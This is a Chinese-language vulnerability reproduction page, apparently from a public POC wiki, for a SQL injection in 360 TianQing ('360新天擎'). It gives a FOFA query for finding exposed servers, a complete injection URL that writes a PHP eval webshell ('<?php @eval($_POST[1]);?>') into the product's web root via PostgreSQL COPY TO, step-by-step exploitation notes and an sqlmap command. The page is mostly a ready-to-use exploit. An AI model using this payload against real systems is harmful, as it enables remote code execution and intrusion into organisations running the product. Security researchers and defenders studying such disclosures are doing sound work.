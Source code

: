 # 天擎 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
> title="360新天擎"

## 漏洞复现

```
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

使用命令

```
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```

![](image/tq-1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360 TianQing ccid SQL injectable

![](image/tq-3.png)